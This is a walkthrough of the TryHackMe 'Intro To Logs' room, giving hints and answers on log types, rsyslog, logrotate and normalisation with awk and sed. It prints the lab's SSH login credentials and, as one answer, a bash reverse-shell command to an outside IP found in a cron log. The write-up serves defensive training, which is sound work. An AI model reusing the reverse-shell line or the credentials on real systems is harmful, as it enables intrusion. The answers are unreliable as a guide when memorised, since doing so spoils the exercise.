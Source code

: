 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## TryHackMe SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

#### Q1:  What is the name of your colleague who left a note on the Desktop?

##### cat Desktop/note.txt (or open in the GUI)

>! Perry

#### Q2: What is  full path to the suggested log file for initial investigation?

##### look in cat output of the note!

>! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

#### Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?

##### Task 2 was discussing an Nginx server which is a web server...

>! Web Server Log !<

#### Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?

##### The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

#### Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

##### after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

#### Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

##### cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

#### Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

#####  cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

#### Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?

##### cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

#### Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?

##### See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

#### Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?

##### OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

#### What is the process of standardising parsed data into a more easily readable and query-able format?

##### This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

#### What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?

##### This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
